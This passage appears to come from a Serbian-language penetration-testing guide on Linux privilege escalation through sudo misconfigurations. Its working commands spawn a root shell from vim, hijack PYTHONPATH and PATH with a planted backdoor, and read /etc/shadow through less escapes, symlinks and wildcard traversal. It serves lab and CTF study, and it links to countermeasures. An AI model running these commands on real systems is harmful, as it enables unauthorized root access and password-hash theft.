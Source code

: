 U ovom primeru korisnik `demo` može pokrenuti `vim` kao `root`, sada je jednostavno dobiti shell dodavanjem ssh ključa u root direktorijum ili pozivanjem `sh`.

```
sudo vim -c '!sh'
```

### SETENV

Ova direktiva omogućava korisniku da **postavi promenljivu okruženja** prilikom izvršavanja nečega:

```bash
$ sudo -l
User waldo may run the following commands on admirer:
(ALL) SETENV: /opt/scripts/admin_tasks.sh
```

Ovaj primer, **baziran na HTB mašini Admirer**, bio je **ranjiv** na **PYTHONPATH preusmeravanje** kako bi se učitala proizvoljna Python biblioteka prilikom izvršavanja skripte kao root:

```bash
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```

### Bypassiranje izvršavanja sudo komande putem putanja

**Skoknite** da biste pročitali druge fajlove ili koristite **simboličke veze**. Na primer, u sudoers fajlu: _haker10 SVE= (root) /bin/less /var/log/\*_

```bash
sudo less /var/logs/anything
less>:e /etc/shadow #Jump to read other files using privileged less
```

```bash
ln /etc/shadow /var/log/new
sudo less /var/log/new #Use symlinks to read any file
```

Ako se koristi **wildcard** (\*), još je lakše:

```bash
sudo less /var/log/../../etc/shadow #Read shadow
sudo less /var/log/something /etc/shadow #Red 2 files
```

**Protivmere**: [https://blog.compass-security.com/2012/10/opasni-sudoers-unosi-deo-5-rekapitulacija/](https://blog.compass-security.com/2012/10/opasni-sudoers-unosi-deo-5-rekapitulacija/)

### Sudo komanda/SUID binarni fajl bez putanje komande

Ako je **sudo dozvola** dodeljena samo jednoj komandi **bez navođenja putanje**: _hacker10 ALL= (root) less_, možete je iskoristiti promenom PATH promenljive.

```bash
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```
